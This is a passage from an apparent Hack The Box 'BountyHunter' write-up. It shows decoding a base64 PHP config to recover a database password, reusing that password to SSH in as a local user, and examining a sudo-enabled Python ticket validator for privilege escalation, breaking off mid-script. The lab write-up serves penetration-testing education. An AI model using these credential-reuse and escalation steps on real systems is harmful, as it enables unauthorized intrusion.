 We can decode it and fine a database username and password
```
┌──(root💀kali)-[~/htb/bountyhunter]
└─# echo -n 'PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=' | base64 -d
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

Looking back at the `/etc/passwd` we learned that there was one user called "development" so lets try using the password to log in via ssh
```
┌──(root💀kali)-[~/htb/bountyhunter]
└─# ssh development@10.10.11.100                                                                                                                                                        130 ⨯
development@10.10.11.100's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
```

## Root
The first thing I did was run `sudo -l` and I found I could run sudo for a custom script
```
 (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

Lets take a look. I broke it down inline
```python
development@bountyhunter:~$ cat /opt/skytrain_inc/ticketValidator.py
#This function will check if the provided files is a .md 
def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

#This function will Ceck if the first 3 lines if they contain a string 
#1. "# Skytrain Inc" 
#2. "## Ticket to " 
#3. "__Ticket Code:__". 
def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

```